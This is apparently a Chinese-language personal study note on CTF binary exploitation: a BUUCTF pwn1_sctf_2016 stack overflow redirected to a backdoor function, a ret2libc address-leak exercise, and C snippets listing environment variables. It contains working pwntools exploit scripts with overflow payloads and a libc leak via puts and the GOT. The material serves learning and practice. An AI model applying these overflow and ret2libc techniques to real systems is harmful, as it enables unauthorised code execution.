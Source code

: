 



### buu

pwn1_sctf_2016

查看保护

<img src="../images/image-20220919122609823.png" alt="image-20220919122609823" style="zoom:50%;" />

<img src="../images/image-20220919112733346.png" alt="image-20220919112733346" style="zoom:50%;" />



存在后门函数

![image-20220919112909061](../images/image-20220919112909061.png)



不懂c++ 有空需要补一下了

std::string::string

I会替换成you,至于为什么,,,先留下个坑吧

输入为32字节,栈长度3C = 48+ 12 = 60 字节 所以需要10个i,然后



3C - 4 = 38

38  + eip + ebp 



#### 遇到的问题

pwntools sendafter接收不到...

```python
这个可以
from pwn import *
io = process("./pwn")
payload = b'I'*20 + b'a'*0x4 + p32(0x8048F0D)
io.sendline(payload) 
io.interactive()


这个不行
from pwn import *

context.log_level= "debug"
io = process("./pwn")

payload = b'i' * 10  + p32(0x08048F0D)

io.sendafter("yourself:",payload)
io.interactive()



```





Send 和sendline啥区别..





#### ciscn

![image-20220919145532291](../images/image-20220919145532291.png)





ret2libc

为啥这个就可以

```python
##!/usr/bin/env python
from pwn import *
from LibcSearcher import LibcSearcher

sh = process('./ret2libc3')

context.terminal = ['tmux', 'splitw', '-h']
#gdb.attach(sh)
#pause()



ret2libc3 = ELF('./ret2libc3')

puts_plt = ret2libc3.plt['puts']
libc_start_main_got = ret2libc3.got['__libc_start_main']
main = ret2libc3.symbols['main']
#print(hex(puts_plt))
print("leak libc_start_main_got addr and return to main again")
payload = flat([b'A' * 112, puts_plt, main, libc_start_main_got])
sh.sendlineafter('Can you find it !?', payload)

print("get the related addr")
libc_start_main_addr = u32(sh.recv()[0:4])
print(hex(libc_start_main_addr))
```



还有就是为什么要用下面的puts来泄漏地址,上面的不行吗..



### 环境变量学习

来自《计算机安全导论:深度实践》

```c
输出所有环境变量,在c的main函数中用envp(只能在这用)
#include <stdio.h>
void main(int argc, char* argv[], char* envp[])
{
        int i =0 ;
        while (envp[i] != NULL)
        {
                printf("%s\n",envp[i++]);
        }
}

或者另一种方法,用全局变量environ(更推荐)
#include <stdio.h>

extern char** environ;
void main(int argc, char* argv[], char* envp[])
{
        int i =0 ;
        while (environ[i] != NULL)
        {
                printf("%s\n",environ[i++]);
        }
}
```









